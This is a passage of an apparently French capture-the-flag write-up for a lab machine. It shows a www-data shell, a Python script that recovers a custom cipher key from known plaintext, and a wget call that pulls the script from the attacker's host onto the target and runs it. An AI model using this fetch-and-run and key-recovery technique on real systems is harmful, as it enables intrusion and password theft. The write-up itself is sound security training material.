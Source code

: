 ~~~
www-data@obscure:/home/robert$ cat passwordreminder.txt
cat passwordreminder.txt
´ÑÈÌÉàÙÁÑé¯·¿kwww-data@obscure:/home/robert$ cat check.txt
cat check.txt
Encrypting this file with your key should result in out.txt, make sure your key is correct! 
www-data@obscure:/home/robert$ cat out.txt
cat out.txt
¦ÚÈêÚÞØÛÝÝ	×ÐÊß
ÞÊÚÉæßÝËÚÛÚêÙÉëéÑÒÝÍÐ
êÆáÙÞãÒÑÐáÙ¦ÕæØãÊÎÍßÚêÆÝáäè	ÎÍÚÎëÑÓäáÛÌ×	vwww-data@obscure:/home/robert$ 

www-data@obscure:/home/robert$ 
~~~

On a la fonction encrypt, le text en clair check.txt et le cipher out.txt

Créer un script pour trouver la clé de chiffrement

~~~
root@Host-001:~/Bureau# cat key.py
import string

with open('/home/robert/check.txt', 'r', encoding='utf-8') as f:
    mingwen = f.read()

key = ''

with open('/home/robert/out.txt', 'r', encoding='utf-8') as f:
    miwen = f.read()
    for c in range(len(mingwen)):
        for i in range(255):
            ch = chr((ord(miwen[c]) - i) % 255)
            if ch == mingwen[c]:
                key += chr(i)
                break
print(key)
root@Host-001:~/Bureau# chmod 777 key.py
root@Host-001:~/Bureau# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.168 - - [20/Mar/2020 08:14:35] "GET /key.py HTTP/1.1" 200 -
~~~

Récupérer le script sur le serveur et trouver la clé:

~~~
www-data@obscure:/tmp$ wget http://10.10.14.35/key.py
wget http://10.10.14.35/key.py
--2020-03-20 07:17:21--  http://10.10.14.35/key.py
Connecting to 10.10.14.35:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 405 [text/plain]
Saving to: ‘key.py’

     0K                                                       100% 53.1M=0s

2020-03-20 07:17:21 (53.1 MB/s) - ‘key.py’ saved [405/405]

www-data@obscure:/tmp$ python3 key.py
python3 key.py
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichal
~~~
